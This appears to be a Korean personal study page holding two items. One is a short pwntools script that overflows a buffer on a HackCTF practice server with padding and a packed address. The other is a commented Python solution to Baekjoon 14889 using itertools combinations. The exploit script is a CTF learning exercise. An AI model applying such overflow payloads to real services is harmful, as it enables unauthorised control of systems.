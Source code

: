 # 개인공부
## python and pwn

## hackctf: offset      

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()


## 백준: 14889. 스타트와 링크

>> 상황에 따라 조합함수 , 수열함수 이용하기


풀이


from itertools import combinations # 조합 함수

>> itertools 모듈 - combination 함수

>> itertools - combinations_with_replacement 함수

N = int(input())        # 반복 횟수 받기

able_borad = []     

for _ in range(N):
    able_borad.append(list(map(int,input().split())))

number_list = [i for i in range(N)]     # 멤버들의 총 리스트

res = float('inf')  #???    # 능력치 차이 최소값


'''
>>> float('inf')          # 양의 무한대
inf

>>> float('-inf')         # 음의 무한대
-inf

>>> 1e100 < float('inf')  # 무한대는 다른 모든 실수보다 크다
True

>>> 1e309                 # 너무 큰 실수는 무한대로 평가된다
inf

>>> 1e-324                # 너무 0에 가까운 실수는 0으로 평가된다
0.0

'''

def solve():
    global res

    # 조합함수를 이용해서 각각 후보자를 생성
    for c in combinations(number_list, N//2):
        # 선택된 후보와 나머지

        start_number = list(c)      
        # number_list 부터 N//2 까지 반복 하면서
        # 나온 c는 비교하기위한 첫번쨰 숫자이고

        link_number = list(set(number_list) - set(c))
        # 링크 넘버는 두번쨰 숫자이다.
        # 리스트에서 스타트리스트와 겹치는 부분만 제거해주면 된다.


        # 점수 비교 2명씩
        start_com = list(combinations(start_number,2))
        # 위의 만들어놨던 스타트 멤버와 링크멤버를 서로 비교
        link_com = list(combinations(link_number,2))

        # 점수 구하기
        start_sum = 0   # 점수 합 변수
        for x,y in start_com:
            start_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.

        link_sum = 0    # 점수 합 변수
        for x,y in link_com:
            link_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.


        # 차이를 구하는거면 함수 abs 를 사용한다.
        # 왜냐하면 음수가 나올수있기떄문에
        # abs >> 절댓값 나오게하는 함수

        if (res > abs(start_sum - link_sum)):
            res = abs(start_sum-link_sum)
            # 계속해서 res와 비교해서 최소값 도출하기
solve()
print(res)

